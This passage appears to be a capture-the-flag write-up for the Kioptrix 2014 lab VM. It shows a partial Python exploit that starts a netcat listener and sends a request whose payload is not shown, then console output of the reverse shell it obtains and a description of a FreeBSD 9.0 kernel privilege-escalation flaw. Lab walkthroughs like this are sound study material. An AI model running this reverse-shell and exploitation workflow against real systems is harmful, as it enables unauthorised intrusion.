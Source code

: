 ```python


def exploit():
    http = urllib3.PoolManager()
    resp = http.request('GET', url, headers={'User-Agent':'Mozilla/4.0'})

def listener():
    os.system("nc -vlnp {}".format(lport))

def main(): 
    l = threading.Thread(target=listener)
    e = threading.Thread(target=exploit)

    l.start()
    time.sleep(2)
    e.start()

if __name__ == "__main__":
    main()
```

We run the exploit and we get a shell.

```console
root@kali:~$ python3 pwn.py 192.168.179.168 192.168.179.1 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.168] 56350
id
uid=80(www) gid=80(www) groups=80(www)
/bin/csh -i
Warning: no access to tty (Bad file descriptor).
Thus no job control in this shell.
kioptrix2014#
```

By listing the kernel version, it appears to be vulnerable to kernel exploitation.

```console
kioptrix2014# uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```

## Privilege Escalation
### Kernel Exploit

The vm_map_lookup function in sys/vm/vm_map.c in the mmap implementation in the kernel in FreeBSD 9.0 through 9.1-RELEASE-p4 does not properly determine whether a task should have write access to a memory location, which allows local users to bypass filesystem write permissions and consequently gain privileges via a crafted application that leverages read permissions, and makes mmap and ptrace system calls.

We download the exploit and start a web server with python.
